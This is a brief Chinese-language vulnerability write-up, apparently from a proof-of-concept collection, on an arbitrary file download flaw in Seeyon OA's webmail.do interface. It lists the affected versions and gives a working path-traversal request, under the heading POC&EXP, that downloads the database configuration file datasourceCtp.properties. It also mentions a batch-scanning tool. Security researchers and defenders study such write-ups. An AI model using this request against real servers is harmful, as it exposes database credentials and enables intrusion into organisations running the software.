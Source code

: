 ## 漏洞概述

致远OA的webmail.do接口存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 影响范围

```http
A6-V5
A8-V5
G6-V5
影响范围极广泛
```

##  POC&EXP

验证POC-下载数据库配置文件

```http
http://xxx.com/seeyon/webmail.do?method=doDownloadAtt&filename=data.txt&filePath=../conf/datasourceCtp.properties
```

批量POC

```http
大宝剑（已同步）
```

